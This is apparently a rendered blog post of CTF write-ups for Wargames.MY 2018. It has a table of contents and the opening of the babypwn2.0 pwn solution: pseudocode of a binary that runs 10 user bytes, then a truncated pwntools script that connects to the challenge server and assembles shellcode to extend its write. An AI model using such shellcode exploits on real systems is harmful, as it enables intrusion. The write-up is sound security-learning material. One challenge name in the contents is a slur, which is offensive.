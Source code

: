 ```yaml
---
layout: post
title: Wargames.MY 2018 - Challenge writeups
ctf: Wargames.MY 2018
permalink: /wargamesmy-18/writeups
---
```


## Table of Contents
[**Pwn**](#pwn)
* [babypwn2.0](#babypwn20)
* [faggot2.0](http://daniellimws.github.io/wargamesmy-18/pwn)

[**Web**](#web)
* [PHP Sandbox](php-sandbox)

[**Crypto**](#crypto)
* [aes-ecb-magic](#aes-ecb-magic)
* [ransom](#ransom)

[**Reverse Engineering**](#reverse-engineering)
* [Just Valid It!](#just-valid-it)
* [QuickMEH](#quickmeh)
* [Hackerman](#hackerman)

[**Misc**](#misc)
* [Business Proposal](#business-proposal)
* [You Math Bro?](#you-math-bro)

## Pwn
### babypwn2.0
We are given a vulnerable [binary][babypwn].

The pseudocode something like the following.

```c
char* buf = mmap(NULL, 10, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
write(1, "Give me 10 bytes:\n", 18);
read(0, buf, 10);
(*buf)();   // running buf as a function
```

We are allowed to write 10 bytes of shellcode to execute.

There is a way better solution [here](https://kaizen1996.wordpress.com/2018/12/09/wargames-my-ctf-2018-babypwn2-0-writeup/).

#### Extending write ability
First and foremost, we need to be able to write more shellcode, in order to pop a shell.

```py
from pwn import *

# p = process("./babypwn2")
p = remote("128.199.247.163", 19957)
# libc = ELF("./libc.so")
libc = ELF("./libc6-server.so")
context.arch = 'amd64'

log.info("Payload 1: Get 10 more bytes to write")
payload = ""
payload += asm("lea rax, [rdx+9]")
payload += asm("push 0x400739")
payload += asm("ret")

```